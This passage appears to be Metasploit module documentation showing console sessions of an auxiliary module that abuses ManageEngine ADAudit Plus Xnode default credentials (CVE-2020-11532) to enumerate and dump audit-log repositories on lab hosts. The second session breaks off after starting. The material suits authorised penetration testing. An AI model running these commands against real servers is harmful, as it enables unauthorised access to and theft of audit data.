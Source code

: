 ```
   RHOSTS       192.168.1.41                                                   yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT        29118                                                          yes       The target port (TCP)
   USERNAME     atom                                                           yes       Username used to authenticate to the Xnode server

msf auxiliary(gather/manageengine_adaudit_plus_xnode_enum) > run
[*] Running module against 192.168.1.41

[*] 192.168.1.41:29118 - Running automatic check ("set AutoCheck false" to disable)
[*] 192.168.1.41:29118 - Target seems to be Xnode.
[+] 192.168.1.41:29118 - The target appears to be vulnerable. Successfully authenticated to the Xnode server.
[*] 192.168.1.41:29118 - Obtained expected Xnode "de_healh" status: "GREEN".
[*] 192.168.1.41:29118 - Target is running Xnode version: "XNODE_1_0_0".
[*] 192.168.1.41:29118 - Obtained Xnode installation path: "C:\Program Files (x86)\ManageEngine\ADAudit Plus\apps\dataengine-xnode".
[*] 192.168.1.41:29118 - Data repository AdapFileAuditLog is empty.
[*] 192.168.1.41:29118 - The data repository AdapPowershellAuditLog is not available on the target.
[*] 192.168.1.41:29118 - The data repository AdapSysMonAuditLog is not available on the target.
[*] 192.168.1.41:29118 - The data repository AdapDNSAuditLog is not available on the target.
[*] 192.168.1.41:29118 - The data repository AdapADReplicationAuditLog is not available on the target.
[*] Auxiliary module execution completed
```

### ManageEngine ADAudit Plus 6.0.7 (6076) running on Windows Server 2019 (custom password)
```
msf > use auxiliary/gather/manageengine_adaudit_plus_xnode_enum
msf auxiliary(gather/manageengine_adaudit_plus_xnode_enum) > set rhosts 192.168.1.25
rhosts => 192.168.1.25
msf auxiliary(gather/manageengine_adaudit_plus_xnode_enum) > set password custom_password
password => custom_password
msf auxiliary(gather/manageengine_adaudit_plus_xnode_enum) > options

Module options (auxiliary/gather/manageengine_adaudit_plus_xnode_enum):

   Name         Current Setting                                                                                                 Required  Description
   ----         ---------------                                                                                                 --------  -----------
   CONFIG_FILE  /root/github/manageengine/metasploit-framework/data/exploits/manageengine_xnode/CVE-2020-11532/adaudit_plus_xn  no        YAML file specifying the data repositories (tables) and fields (columns) to dump
                ode_conf.yaml
   DUMP_ALL     false                                                                                                           no        Dump all data from the available data repositories (tables). If true, CONFIG_FILE will be ignored.
   PASSWORD     custom_password                                                                                                 yes       Password used to authenticate to the Xnode server
   RHOSTS       192.168.1.25                                                                                                    yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT        29118                                                                                                           yes       The target port (TCP)
   USERNAME     atom                                                                                                            yes       Username used to authenticate to the Xnode server

msf auxiliary(gather/manageengine_adaudit_plus_xnode_enum) > run

[*] Running module against 192.168.1.25
```